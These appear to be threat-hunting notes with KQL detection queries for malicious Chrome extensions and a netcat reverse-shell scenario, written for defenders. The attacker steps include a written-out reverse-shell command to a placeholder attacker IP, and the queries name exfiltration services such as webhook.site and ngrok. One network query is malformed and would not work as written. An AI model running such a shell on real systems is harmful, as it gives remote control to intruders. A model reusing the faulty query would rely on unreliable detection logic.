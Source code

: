 
## Related Queries (KQL):
```kql
DeviceFileEvents
| where FolderPath contains "Chrome\User Data\Default\Extensions"

DeviceProcessEvents
| where ProcessCommandLine contains "--load-extension"

DeviceNetworkEvents
| where RemoteUrl contains ".webhook.site" or ".ngrok.io" 
```

---



---

## Additional Notes:
- Chrome extensions can bypass traditional endpoint scanning.
- Enable Chrome enterprise reporting for visibility.


# Threat Event (Reverse Shell via Netcat)
**Backdoor Shell Established Using Netcat**

## Reason for the Hunt:
High-privilege user machine showed suspicious connections to a known C2 IP.
Netcat found running in hidden terminal session.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:
1. Attacker drops nc.exe or variant on target system.
2. Opens reverse shell with: nc.exe <attacker_ip> <port> -e cmd.exe
3. Attacker interacts with target over open port.
4. Persistence achieved via task scheduler or registry key.

---

## Tables Used to Detect IoCs:
| **Name** | **Description** |
|----------|----------------|
| DeviceFileEvents | Netcat binary download or creation |
| DeviceProcessEvents | Netcat execution |
| DeviceNetworkEvents | Connection to external IP or port |

---